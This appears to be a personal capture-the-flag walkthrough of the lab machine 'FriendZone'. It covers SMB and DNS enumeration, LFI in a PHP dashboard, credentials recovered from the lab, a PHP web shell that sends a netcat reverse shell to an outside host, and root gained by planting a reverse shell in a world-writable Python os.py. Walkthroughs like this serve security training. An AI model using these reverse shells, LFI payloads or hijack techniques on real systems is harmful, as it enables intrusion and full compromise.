


```

Not shown: 993 closed ports                                                                                                                [326/1271]
PORT    STATE SERVICE     VERSION                                                                   
21/tcp  open  ftp         vsftpd 3.0.3                                                             
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)                       
| ssh-hostkey:                                                                                     
|_  256 00:4e:1a:4f:33:e8:a0:de:86:a6:e4:2a:5f:84:61:2b (ED25519)                                   
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)                                 
| dns-nsid:                                                                                        
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu                                                         
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))                                           
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                       
|_http-title: Friend Zone Escape software                                                           
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)                               
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 404 Not Found
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn:

445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.0.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel       Host script results:
|_clock-skew: mean: -45m03s, deviation: 1h09m16s, median: -5m04s
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)       
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2019-02-12T06:14:29+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2019-02-11 23:14:28
|_  start_date: N/A
```

137 139 NMAP-SMB USER SCAN

Enumerates shares using MSRPC function, it will check common share names. 

```
sudo nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 10.10.10.123     
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-12 13:41 EST
Nmap scan report for friendzone.red (10.10.10.123)
Host is up (0.040s latency).
                                  
PORT    STATE SERVICE                
139/tcp open  netbios-ssn  
137/udp open  netbios-ns  
                                            
Host script results:
| smb-enum-shares:          
|   account_used: guest   
|   \\10.10.10.123\Development:   
|     Type: STYPE_DISKTREE           
|     Comment: FriendZone Samba Server Files
|     Users: 0            
|     Max Users: <unlimited>  
|     Path: C:\etc\Development
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\Files:
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\hole
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.123\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\general:
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

```

NMAP 445

```
nmap --script smb-enum-shares.nse -p445 10.10.10.123                                               
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-12 13:58 EST                                     
Nmap scan report for friendzone.red (10.10.10.123)                                                 
Host is up (0.039s latency).                                                                       
PORT    STATE SERVICE                                                                               
445/tcp open  microsoft-ds                                                                         
Host script results:                                                                               
| smb-enum-shares:                                       
|   account_used: guest                                                                             
|   \\10.10.10.123\Development:                                                                     
|     Type: STYPE_DISKTREE                                                                         
|     Comment: FriendZone Samba Server Files                                                       
|     Users: 0                                                                                     
|     Max Users: <unlimited>                                                                       
|     Path: C:\etc\Development                                                                     
|     Anonymous access: READ/WRITE                                                                 
|     Current user access: READ/WRITE
|   \\10.10.10.123\Files:                   
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files /etc/Files
|     Users: 0            
|     Max Users: <unlimited>      
|     Path: C:\etc\hole              
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.10.123\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (FriendZone server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\general:
|     Type: STYPE_DISKTREE
|     Comment: FriendZone Samba Server Files
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\etc\general
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.10.123\print$:
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
```

https://nmap.org/nsedoc/scripts/smb-enum-shares.html

The image seems to hint towards heartbleed exploit. hmmm there are different stuff we can leak with heartbleed vuln smb ftp etc so this might be it. 


GOBUSTER

```
gobuster -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt -u http://friendzone.htb               

=====================================================                          
Gobuster v2.0.0              OJ Reeves (@TheColonial)                          
=====================================================                          
[+] Mode         : dir
[+] Url/Domain   : http://friendzone.htb/                                      
[+] Threads      : 10
[+] Wordlist     : /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403                                     
[+] Timeout      : 10s
=====================================================                          
2019/02/11 23:44:01 Starting gobuster
=====================================================                          
/wordpress (Status: 301)
=====================================================
2019/02/11 23:50:02 Finished
=====================================================
```

This is weird it would seem that possibly im suppose to upload rce somehow. wpscan reports wp is not up so perhaps a fakeout.


NMAP-CLUE RED 

```
friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
```


CYBERCHEF

decoding the string provided, it provided another string i checked it against crackstation nothing returned. 

```
CFykJCB1nC15499490527QasJWT7r7
```

SMBMAP 

-H 10.10.10.123  -u info@friendzoneportal.red -p CFykJCB1nC15499490527QasJWT7r7

```
smbmap -H 10.10.10.123 -u info@friendzoneportal.red -p CFykJCB1nC15499490527QasJWT7r7 -d WORKGROUP
[+] Finding open SMB ports....
[+] Guest SMB session established on 10.10.10.123...
[+] IP: 10.10.10.123:445        Name: friendzone.red                                    
        Disk                                                    Permissions
        ----                                                    -----------
        print$                                                  NO ACCESS
        Files                                                   NO ACCESS
        general                                                 READ ONLY
        Development                                             READ, WRITE
        IPC$                                                    NO ACCESS
```

SMBCLIENT

```
smblcient --U admin@friendzoneportal.red //10.10.10.123
```

SMB CREDS

```
creds for the admin THING:q
admin:WORKWORKHhallelujah@#
WORKWORKHhallelujah@#
```

```
smbmap -H 10.10.10.123 -u admin@friendzoneportal.red -p WORKWORKHhallelujah@# -d WORKGROUP
```

WFUZZ

command injection trying to find osme lfi so i can run the php backdoor

```
wfuzz -c -w /home/htb/wordlist/seclist/Discovery/Web-Content/burp-parameter-names.txt --hh 403 -u 'http://friendzone.red/js/js/FUZZ=cat+/etc/hosts' --hc 404
```

```
wfuzz -c -w /home/htb/wordlist/seclist/Fuzzing/LFI-JHADDIX.txt -u "http://frien
dzone.red/js/jsFUZZ" --hc 404
```

WFUZZ SUBDOMAINS

```
wfuzz -c -f sub-friendzone -w /home/htb/wordlist/seclist/Discovery/DNS/subdomains-top1mil-5000.txt -u "https://friendzone.red" -H "Host: FUZZ.friendzone.red" -t 42 --hc 404

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.3 - The Web Fuzzer                         *
********************************************************

Target: https://friendzone.red/
Total requests: 4996

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000689:  C=400     12 L       53 W          423 Ch        "gc._msdcs"
001321:  C=200     13 L       35 W          391 Ch        "uploads"

```

```
000053:  C=200      0 L        2 W            7 Ch        "login"
002721:  C=200      0 L       12 W          101 Ch        "dashboard"
021086:  C=200      0 L        5 W           36 Ch        "timestamp"
```

go to etc/hosts and add in uploads.friendzone.red

WFUZZ 

fuzzing dashboard i cound the load function or whatever command api.

```
wfuzz -c -w /home/htb/wordlist/seclist/Discovery/Web-Content/burp-parameter-names.txt --hl 0 'https://administrator1.friendzone.red/dashboard.php?FUZZ=junk'

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.3 - The Web Fuzzer                         *
********************************************************

Target: https://administrator1.friendzone.red/dashboard.php?FUZZ=junk
Total requests: 2588

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000233:  C=200      0 L       12 W          101 Ch        "load"^C

```

DNS

```
dig axfr @10.10.10.123 

; <<>> DiG 9.11.5-P1-1-Debian <<>> axfr @10.10.10.123
; (1 server found)
;; global options: +cmd
;; Query time: 39 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Tue Feb 12 17:45:45 EST 2019
;; MSG SIZE  rcvd: 56

```

```
dig axfr @10.10.10.123 friendzone.red 

; <<>> DiG 9.11.5-P1-1-Debian <<>> axfr @10.10.10.123 friendzone.red
; (1 server found)
;; global options: +cmd
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.         604800  IN      AAAA    ::1
friendzone.red.         604800  IN      NS      localhost.
friendzone.red.         604800  IN      A       127.0.0.1
administrator1.friendzone.red. 604800 IN A      127.0.0.1
hr.friendzone.red.      604800  IN      A       127.0.0.1
uploads.friendzone.red. 604800  IN      A       127.0.0.1
friendzone.red.         604800  IN      SOA     localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 43 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Tue Feb 12 17:46:46 EST 2019
;; XFR size: 8 records (messages 1, bytes 289)

```

/dashboard.php?image_id=php://filter/convert.base64-encode/resource=/etc/passwd&pagename=expect://ls

wfuzzing possible directories server-status was forbidden ooo

LFI fuzzing

```
dashboard.php?image_id=.%00&pagename=php://filter/convert.base64-encode/resource=timestamp HTTP/1.1
```


```

<?php


$time_final = time() + 3600;

echo "Final Access timestamp is $time_final";


?>
```

DASHBOARD

```
<?php

//echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
//echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";
echo "<title>FriendZone Admin !</title>";
$auth = $_COOKIE["FriendZoneAuth"];

if ($auth === "e7749d0f4b4da5d03e6e9196fd1d18f1"){
 echo "<br><br><br>";

echo "<center><h2>Smart photo script for friendzone corp !</h2></center>";
echo "<center><h3>* Note : we are dealing with a beginner php developer and the application is not tested yet !</h3></center>";

if(!isset($_GET["image_id"])){
  echo "<br><br>";
  echo "<center><p>image_name param is missed !</p></center>";
  echo "<center><p>please enter it to show the image</p></center>";
  echo "<center><p>default is image_id=a.jpg&pagename=timestamp</p></center>";
 }else{
 $image = $_GET["image_id"];
 echo "<center></center>";

 echo "<center><h1>Something went worng ! , the script include wrong param !</h1></center>";
 include($_GET["pagename"].".php");
 //echo $_GET["pagename"];
 }
}else{
echo "<center><p>You can't see the content ! , please login !</center></p>";
}
?>
```

UPLOAD.PHP

THIS WAS TRICKY HAD TO GUESS I MESSED UP AND KEPT ADDING THE DARN EXTENTION

burp

```
/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=../uploads/upload
```

upload.php

```
PD9waHAKCi8vIG5vdCBmaW5pc2hlZCB5ZXQgLS0gZnJpZW5kem9uZSBhZG1pbiAhCgppZihpc3NldCgkX1BPU1RbImltYWdlIl0pKXsKCmVjaG8gIlVwbG9hZGVkIHN1Y2Nlc3NmdWxseSAhPGJyPiI7CmVjaG8gdGltZSgpKzM2MDA7Cn1lbHNlewoKZWNobyAiV0hBVCBBUkUgWU9VIFRSWUlORyBUTyBETyBIT09PT09PTUFOICEiOwoKfQoKPz4K
```

```
<?php
// not finished yet -- friendzone admin !
if(isset($_POST["image"])){
echo "Uploaded successfully !<br>";
echo time()+3600;
}else{
echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";
}
?>
```



USER

taking all the bits and pieces here to get user. Remember the nmap scan that it showed the paths for the smb shares. This will help find the uploaded php shell. the use the lfi to run the script. It will smash the shell the script here is to keep it simple. 

SHELL === 

```
<?php echo exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 9080 >/tmp/f') ?>
```

SMBCLIENT

```
smbclient -U info //10.10.10.123/Development
```

LFI

```
/dashboard.php?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=../../../../../etc/Development/pinkie2
```

LFI/RCE

```
/dashboard.php?image_id=a.jpg&pagename=php://filter/resource=../../../../../etc/Development/pinkie2
```

PYTHON TTY

```
python -c 'import pty; pty.spawn("/bin/bash")'
```


LinEnum


```

```

REPORTER.PY


```
#!/usr/bin/python

import os
variables possibly usernames for shares
to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address
#####Command is commented out is a variable
#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''
python to run command line
#os.system(command)

# I need to edit the script later
# Sam ~ python developer
Sam username or the creator name.
```

Hmmmm, in the beginning it said contact us. the above python code is useless. it does provide email address and a password PAPAP

SUID BINARIES

```
/bin/fusermount                                                                           
/bin/umount                                                                               
/bin/mount                                                                                
/bin/su                                                                                   
/bin/ntfs-3g                                            
/bin/ping      
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/sbin/exim4
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

WORLD WRITEABLE 

```
find /usr/*/python2.7 -perm -o+w
```

```
/usr/lib/python2.7
/usr/lib/python2.7/sitecustomize.py
/usr/lib/python2.7/config-x86_64-linux-gnu/libpython2.7.so
/usr/lib/python2.7/os.py
/usr/lib/python2.7/dist-packages/lsb_release.py
```

uploaded a python reverse shell from this link first. cd into python2.7 rm os.py upload a python script with a reverse shell named os.py

```
Agpyu12!0.213$
```


```
import pty
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1", 5038))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")

```

no pty

```
import pty
import socket
import subprocess

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1", 5038))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Okay So i was going in the wrong directions. i sat back and thought so go to /usr/lib/python2.7 edit os.py at the bottom.

```
17system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 5038 >/tmp/f')
```




#